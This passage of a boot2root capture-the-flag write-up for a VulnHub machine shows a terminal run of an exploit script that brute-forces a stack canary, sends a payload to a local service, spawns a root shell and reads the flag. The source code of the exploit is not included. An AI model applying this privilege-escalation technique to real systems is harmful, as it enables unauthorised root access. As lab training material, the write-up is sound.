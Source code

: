 A sample run would be:

```bash Running sploit.py
bash-4.1$ ls -lah /tmp/sploit.py 
-rw-rw-r--. 1 avida avida 4.0K Sep 18 10:33 /tmp/sploit.py
bash-4.1$ python /tmp/sploit.py 

            A: "So, I heard you like pain...?"
            B: "... a bit"
            C: "Well, here it is, the: "
 ____   ___  ____    _____ ____ _____ ______    ___  ____     __    ___ 
|    \ /  _]|    \  / ___/|    / ___/|      |  /  _]|    \   /  ]  /  _]
|  o  )  [_ |  D  )(   \_  |  (   \_ |      | /  [_ |  _  | /  /  /  [_ 
|   _/    _]|    /  \__  | |  |\__  ||_|  |_||    _]|  |  |/  /  |    _]
|  | |   [_ |    \  /  \ | |  |/  \ |  |  |  |   [_ |  |  /   \_ |   [_ 
|  | |     ||  .  \ \    | |  |\    |  |  |  |     ||  |  \     ||     |
|__| |_____||__|\_|  \___||____|\___|  |__|  |_____||__|__|\____||_____|
      _____ ____  _       ___  ____  ______ 
     / ___/|    \| |     /   \|    ||      |
    (   \_ |  o  ) |    |     ||  | |      |
     \__  ||   _/| |___ |  O  ||  | |_|  |_|
     /  \ ||  |  |     ||     ||  |   |  |  
     \    ||  |  |     ||     ||  |   |  |  
      \___||__|  |_____| \___/|____|  |__|  
                                        
                A: "AKA: FU superkojiman && sagi- !!"
                A: "I also have no idea what I am doing"

[+] Connecting & starting canary bruteforce...
[+] Found a possible canary value of '64'!
[+] Found a possible canary value of 'd3'!
[+] Found a possible canary value of 'c6'!
[+] Found a possible canary value of '15'!
[+] Canary known as : 64d3c615
[+] Writing /tmp/log to be called by wopr later
[+] Connecting to service
[+] Sending Payload
[+] Done
[+] going to try and spawn /tmp/getroot, assuming the sploit worked :)
sh-4.1# id
uid=0(root) gid=500(avida) groups=0(root),500(avida) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

And, as proof, we cat the flag!

```bash Persistence w00t
sh-4.1# cat /root/flag.txt 
              .d8888b.  .d8888b. 888    
             d88P  Y88bd88P  Y88b888    
             888    888888    888888    
888  888  888888    888888    888888888 
888  888  888888    888888    888888    
888  888  888888    888888    888888    
Y88b 888 d88PY88b  d88PY88b  d88PY88b.  
 "Y8888888P"  "Y8888P"  "Y8888P"  "Y888

Congratulations!!! You have the flag!

We had a great time coming up with the 
challenges for this boot2root, and we 
hope that you enjoyed overcoming them. 

Special thanks goes out to @VulnHub for 
hosting Persistence for us, and to 
```
